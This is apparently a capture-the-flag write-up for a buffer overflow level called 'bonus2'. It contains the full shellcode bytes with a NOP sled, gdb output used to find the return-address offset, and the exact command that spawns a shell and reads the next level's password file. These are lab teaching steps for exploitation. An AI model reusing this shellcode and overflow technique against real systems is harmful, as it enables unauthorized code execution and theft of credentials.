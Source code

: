 # Bonus 2

We're again using this [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) that we insert in the env after a nope slide, we'll increment the pointer to it a bit to make our exploit more resilient, refer to `bonus0` for more.

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

```shell
(gdb) r `python -c 'print 41 * "A"'` "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab" 
Breakpoint 2, 0x0804851f in greetuser ()
(gdb) next
Single stepping until exit from function greetuser,
which has no line number information.
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
0x38614137 in ?? ()
```
Using [a pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) we found that the offset it segfaults at is 23 (with LANG=nl)

```shell
./bonus2 `python -c 'print 40 * "A"'` `python -c 'print 23 * "B" + "\x6c\xfd\xff\xbfa"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBl���a
$ cat /home/user/bonus3/.pass
[redacted]
```

```shell
$ ./a.out
sizeof("Hyvää päivää ") = 19
sizeof("Goedemiddag! ") = 14
sizeof("Hello ") = 6;
```

You can do it too with LANG=fi, but you need 5 fewer bytes of padding, because the Finnish greeting is 5 chars longer (Unicode).
You can't do it with LANG=en, because it's not long enough. When I try to repeat the steps, with the generated pattern, it doesn't find the right offset.
